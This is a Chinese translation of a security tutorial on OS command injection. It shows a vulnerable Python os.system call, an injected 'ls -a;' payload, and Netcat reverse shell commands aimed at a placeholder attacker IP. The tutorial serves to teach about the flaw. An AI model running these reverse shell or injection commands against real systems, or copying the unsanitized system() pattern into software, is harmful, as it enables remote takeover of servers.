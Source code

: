 # 命令执行:OWASP 最大漏洞

> 原文：<https://medium.com/nerd-for-tech/command-execution-owasp-top-vulnerability-ad9a85163ab4?source=collection_archive---------21----------------------->

![](img/1697d969d1dcc491368a8146d4ca6a5d.png)

[src](https://www.uhdpaper.com/2019/12/green-arrow-dc-4k-42289.html)

# 什么是命令执行？

命令注入也称为操作系统命令注入是一种通过获取外壳来利用运行外部操作系统命令的系统应用程序的方法，这可能是由用户输入的不良净化或验证造成的。这可能导致在目标系统上执行任意命令。这也可能导致攻击者破坏整个数据库，其中可能包括用户的个人信息。

攻击者可以从受损系统中请求、删除、添加、编辑信息(如 XML 配置文件),甚至可以在系统中注入一个后门，以便以后访问。

当开发人员在其源代码中使用 system()或等效命令时，发现此漏洞的机会会增加。

```
import osdomain = user_input() #enter the website to trace
os.system('ping'+ domain) #counts the hops to domain
```

上面的代码将 ping 用户输入的域。但是您可能会注意到，用户输入在传递给在系统上执行命令的 system()之前没有被过滤。

那么，如果用户决定输入开发人员不希望输入的内容，例如

```
import osdomain = user_input() #ls -a;
os.system('ping'+ domain) #counts the hops to domain
```

在这种情况下，域变量将存储命令“ls-a；”，前面的命令以“；”结束允许您输入另一个命令。

```
ls -a ; ping
```

因此，这里系统将执行没有属性的“ls -a”命令和“ping”命令。还可以包含其他命令来代替 ls -a。

但是你可能会想，

# **为什么应用程序需要执行系统命令？**

很明显，因为应用程序需要与系统通信以实现其内部功能，或者它可能想要运行其他应用程序，或者可能想要运行用其他编程语言编写的程序。

因此，它总结了进行 system()调用是多么有用，这是一个非常有用的特性，除非它被合法地使用。

# **命令注射**

好吧，这对用户来说不是问题，但这会给攻击者带来很多机会，可能发生的最糟糕的事情是攻击者可以产生一个反向外壳并在 web 服务器(目标系统)上执行命令注入攻击。为了完成这个场景，我们有一大堆反向外壳可以使用，你可以从[这里](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)得到它们。

# **方法**

以下是由相同漏洞导致的不同类型的命令注入攻击。

# 任意命令注入

对用户输入的不良净化或验证会导致此漏洞。在这里，攻击者可以向系统注入恶意命令。

# 任意文件上传

允许上传文件而不验证文件中的扩展名或数据的网站可能导致利用此漏洞进行攻击，这种类型的攻击可能属于上传恶意代码块的代码注入类别。

# 不安全序列化

每个通信都需要数据的序列化和反序列化，但是如果数据的反序列化(服务器端)在没有任何适当验证的情况下发生，则可能导致命令执行。

# 服务器端模板注入(SSTI)

该漏洞允许攻击者插入恶意的服务器端模板，许多服务器端应用程序使用该模板来生成有效的 HTML 响应。

# XML 外部实体注入(XXE)

XXE 是一个攻击漏洞，它滥用 XML 解析器/数据的功能。它会导致敏感数据泄露、服务器端请求伪造(SSRF)或拒绝服务攻击。

# 攻击

在本文中，我们将重点讨论 Netcat 反向 shell。

反向外壳是从目标机器向处于监听状态的攻击者主机发起的外壳，以拾取外壳。bind shell 在目标主机上设置(在本例中是通过注入)了一个特定的端口，该端口将启动与攻击者设备的连接，从而建立连接。反向壳也可以被称为后门(正如它的发音一样)。

## 步骤:

1.  在攻击者的设备上设置监听器。
2.  从目标设备启动连接。
3.  发布命令，享受你的反向外壳。

您应该首先设置监听器，如下所示。

```
nc -lvp 80
```

下一步，我们执行以下命令，借助以下命令在目标主机上启动连接。

```
nc ATTACKING-IP 80 -e /bin/sh
```

如果这不起作用

```
/bin/sh | nc ATTACKING-IP 80
```

这里有一整套逆向 shell[和](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)，所以不要把自己局限在 Netcat 上，也要尝试新的 shell。